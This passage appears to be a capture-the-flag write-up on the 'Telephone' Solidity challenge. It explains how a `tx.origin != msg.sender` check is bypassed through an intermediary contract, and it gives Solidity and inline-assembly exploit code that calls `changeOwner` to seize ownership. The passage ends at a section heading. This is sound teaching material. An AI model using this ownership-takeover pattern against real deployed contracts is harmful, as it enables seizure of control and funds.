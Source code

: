 ### The Bug

The condition `tx.origin != msg.sender` is supposed to prevent direct calls, but it can be easily bypassed by calling through any intermediary contract.

## 💡 Attack Strategy

```
1. Deploy malicious contract (AttackContract)
2. User calls AttackContract.exploit()
3. AttackContract calls Telephone.changeOwner()
   ├─> tx.origin = User EOA
   ├─> msg.sender = AttackContract  
   ├─> tx.origin != msg.sender ✓ (condition passes!)
   └─> Ownership transferred to attacker
```

## 🔧 Exploit Implementation

### Standard Solidity Exploit

```solidity
contract TelephoneExploit {
    function exploit(address _newOwner) external {
        // When this contract calls Telephone:
        // tx.origin = msg.sender (the user)
        // msg.sender = address(this)
        // Condition passes: tx.origin != msg.sender
        ITelephone(target).changeOwner(_newOwner);
    }
}
```

### Pure Assembly Exploit

The assembly implementation demonstrates low-level EVM operations:

```solidity
function attack(address newOwner) external {
    assembly {
        // Function selector: keccak256("changeOwner(address)") = 0xa6f9dae1
        let ptr := mload(0x40)
        mstore(ptr, 0xa6f9dae100000000000000000000000000000000000000000000000000000000)
        mstore(add(ptr, 0x04), newOwner)
        
        let success := call(gas(), target, 0, ptr, 0x24, 0x00, 0x00)
        if iszero(success) { revert(0, 0) }
    }
}
```

## 🧨 Assembly Deep Dive
